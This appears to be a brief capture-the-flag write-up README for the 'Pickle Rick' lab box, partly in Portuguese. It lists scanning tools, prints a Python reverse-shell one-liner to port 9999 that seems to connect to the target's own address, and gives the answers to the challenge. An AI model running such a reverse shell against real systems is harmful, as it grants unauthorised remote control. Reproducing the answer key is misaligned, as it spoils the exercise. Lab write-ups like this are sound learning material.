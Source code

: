 # Pickle Rick
### A Rick and Morty CTF. Help turn Rick back into a human!

```
export IP=10.10.225.37
```

## Ferramentas utilizadas
[nikto](https://github.com/sullo/nikto) <br>
[gobuster](https://github.com/OJ/gobuster) <br>
[netcat](https://en.wikipedia.org/wiki/Netcat) <br>
[nmap](https://nmap.org/) <br>


## Reverse shell
Retirado do [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). <br>
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.225.37",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Respostas da Box


<details>
    <summary><b> What is the first ingredient that Rick needs? </b></summary>
    mr. meeseek hair
</details> <br>

<details>
    <summary><b> What is the second ingredient in Rick’s potion? </b></summary>
    1 jerry tear
</details> <br>

<details>
    <summary><b> What is the last and final ingredient? </b></summary>
    fleeb juice
</details> <br>
